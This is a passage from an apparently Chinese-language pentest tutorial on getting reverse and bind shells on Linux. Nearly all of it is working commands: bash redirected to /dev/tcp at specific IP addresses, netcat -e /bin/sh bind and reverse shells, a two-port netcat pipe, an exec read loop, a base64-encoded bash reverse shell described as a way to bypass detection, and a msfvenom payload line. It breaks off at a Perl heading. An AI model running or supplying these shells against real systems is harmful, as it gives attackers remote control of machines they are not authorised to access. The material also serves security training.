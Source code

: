   (c).bash反弹
  
  bash反弹常规写法
  ```sh
  # >& 或 &> ：混合输出（正确错误的输出都输出到一个地方）
  bash -i &> /dev/tcp/10.10.1.11/6666 0>&1
  # 0>&1 ：将标准输入也重定向到控制端
  bash -i > /dev/tcp/10.10.1.11/6666 0>&1 2>&1
  ```
  
  (d).查看bash描述符

获取bash进程ID
`ps -elf | grep "bash -i"`
查看进程文件描述符
`ll /proc/92893/fd`

<br/>

### 5、Linux反弹Shell方法

- NC
  - NC正向shell
被控端；
`nc -lvvp 8888 -e /bin/sh`
控制端：
`nc 10.10.1.187 8888`
原理：
    > 被控端使用NC将/bin/sh绑定到本地的8888端口，控制端主动连接被控端的8888端口，即可获得shell
  - NC反向shell
控制端：
`nc -lvvp 8888`
被控端：
`nc -e /bin/sh 10.10.1.187 8888`
原理：
    > 被控端使用nc将/bin/sh发送到空hi段的8888端口，控制端只需要监听本地8888端口即可获得shell
优点：直接反弹，没有多余符号。
缺点：部分系统安装的有些事不提供反向连接的版本(没有-e参数)，此时需要自己上传编译后的二进制版本
  - 没有-e参数反弹
使用管道符号，控制端需要开启两个监听端口
`nc x.x.x.x port1 | /bin/bash | nc x.x.x.x port2`
*监听2个端口分别用来输入和输出，其中x.x.x.x均为攻击者IP。*
- Bash
被控端：
`bash -i &> /dev/tcp/107.182.190.222/9999 0>&1`
控制端：
`nc -lvvp 9999`
以下方法也可
被控端：
`exec 5<>/dev/tcp/139.155.49.43/6666;cat <&5 | while read line; do $line 2>&5 >&5; done`
控制端：
`nc –lvvp 6666`
base64编码绕过：
`bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMDEuMjE0Ljg1LzY2NjYgMD4mMQ==|base64 -d|bash -i"`
msf
`msfvenom -p cmd/unix/reverse_bash lhost=10.10.1.11 lport=6666 -f raw`
- Perl
  